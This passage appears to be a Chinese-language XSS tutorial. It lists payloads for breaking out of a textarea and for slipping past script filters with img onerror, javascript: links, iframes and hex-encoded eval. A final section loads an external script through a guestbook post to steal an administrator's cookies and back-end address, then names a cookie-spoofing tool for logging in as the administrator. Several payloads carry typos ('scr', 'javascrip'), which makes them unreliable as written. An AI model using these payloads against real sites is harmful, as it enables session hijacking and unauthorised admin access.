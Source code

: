 **说明：输入以后，鼠标在移动是触发事件，形成xss攻击。**

那么，我在<textarea> 标签中显示呢？

此时就这样输入：

```html
</textarea> <script>alert(‘xss’)</script> // 就可以实现弹窗了
```

## 过滤的解决办法

假如说网站禁止过滤了script 这时该怎么办呢 ？

那么就需要记住：**只要页面能触发你的js代码**

有哪些方法呢？

```html

<!-- 当找不到图片名为1的文件时，执行alert('xss') -->
<img scr=1 onerror=alert('xss')> 

<!-- 点击s时运行alert('xss') -->
<a href=javascrip:alert('xss')>s</a> 

<!-- 利用iframe的scr来弹窗 -->
<iframe src=javascript:alert('xss');height=0 width=0 /><iframe>

 <!-- 过滤了alert来执行弹窗 -->
<img src="1" onerror=eval("\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29")></img>
```

## xss的利用

```html
<script scr="js_url"></script>

<img src=x onerror=appendChild(createElement('script')).src='js_url' />
```

**比如我们在网站的留言区输入`<script scr=”js_url”></script>`**

**当管理员进后台浏览留言的时候，就会触发**

**然后管理员的cookies和后台地址还有管理员浏览器版本等等**

**你都可以获取到了，再用“桂林老兵cookie欺骗工具”来更改你的cookies，**

**就可以不用输入账号 密码 验证码 就可以以管理员的方式来进行登录了。**
